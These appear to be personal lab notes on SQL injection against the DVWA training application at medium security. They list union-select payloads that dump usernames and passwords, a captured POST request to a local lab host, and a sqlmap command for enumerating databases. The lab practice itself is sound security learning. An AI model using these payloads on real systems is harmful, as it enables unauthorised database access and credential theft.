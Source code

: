 

sql injeciton medium vulnerability : ----------------------------

1'

%' or '0'='0' union select user, password from dvwa.users #

% or 0=0 union select user, password from dvwa.users #

1 or 0=0 union select user, password from dvwa.users #


method 2 : -

1'

%' or '0' = '0

1 UNION SELECT null, version() 



using sqlmap save post request in file.txt



POST /vulnerabilities/sqli/ HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: http://172.17.0.2
Connection: close
Referer: http://172.17.0.2/vulnerabilities/sqli/
Cookie: lang=en-US; PHPSESSID=deanteiid9ignilfjtiak17op2; security=medium
Upgrade-Insecure-Requests: 1
i_like_gitea: 11session

id=1&Submit=Submit




next is to run sqlmap 

sqlmap -r r.txt --dbs

